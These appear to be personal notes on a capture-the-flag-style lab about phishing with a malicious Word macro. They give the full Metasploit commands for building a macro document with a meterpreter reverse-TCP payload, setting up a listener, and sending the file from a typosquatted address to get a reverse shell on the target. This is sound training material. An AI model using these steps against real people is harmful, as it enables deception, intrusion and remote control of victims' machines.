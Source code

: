 Learning objectives
- Understand how phishing attacks work
- Discover how macros in documents can be used and abused
- Learn how to carry out a phishing attack with a macro
MSFT Word
	Create macros by clicking on the view menu and selecting 'macros.'
Attackers plan
	Create document with malicious macro. Once victim opens the document, the macro will execute a payload and create a reverse shell to the attackers machine. The attacker must be listen for incoming connections before sending out the document. 
	So the steps are as follows: 
		1. Create a document with a malicious macro
		2. Start listening for incoming connections on the attacker’s system
		3. Email the document and wait for the target user to open it
		4. The target user opens the document and connects to the attacker’s system
		5. Control the target user’s system
The attacker requires a reverse shell because the target's public ip is unknown. 


Attacker's System 
	On our AttackBox VM, we need to:
		Create a document w/ an embedded malicious macro 
		Listen for incoming connections (netcat?)
	Creating the Malicious Document w/ Metasploit 
		Open a new terminal window and run `msfconsole` to start the Metasploit Framework
		 `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell  
			`use exploit/multi/fileformat/office_word_macro` this is not an exploit; it's a module to create a document with a macro
		`set LHOST 10.10.5.140` specifies the IP address of the attacker’s system, `10.10.5.140` 
		`set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
		`show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
		 `exploit` generates a macro and embeds it in a document
		`exit` to quit and return to the terminal
		![[Pasted image 20250205130056.png]]
		![[Pasted image 20250205130333.png]]
		![[Pasted image 20250205130525.png]]
		Metasploit embedded the payload into a word document and stored it at /root/....
If we were to upload the payload into virustotall, it'll give us information about the payload, such as the type of exploit, and the attackers ip and port number. 
Listening for Incoming Connections
	- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
	- `use multi/handler` to handle incoming connections
	- `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro  
	- `set LHOST 10.10.5.140` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
	- `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
	- `show options` to confirm the values of your options
	- `exploit` starts listening for incoming connections to establish a reverse shell
	![[Pasted image 20250205131701.png]]
		We're now listening for the reverse shell on 10.10.5.140:8888
Email the malicious document 
	Target's email: marta@socmas.thm
	Attackers email: info@socnas.thm
		Attacker utilizes typosquatting to deceive target into accepting the email as if it were from the same domain (socmas.thm)
		![[Pasted image 20250205132608.png]]
		I attached the document and wrote a message suggesting they open the file asap. 
Exploitation 
	![[Pasted image 20250205133125.png]]
	Shortly after sending the email, the reverse shell opened up  and I began executing commands on Marta's machine.
	![[Pasted image 20250205133301.png]] 
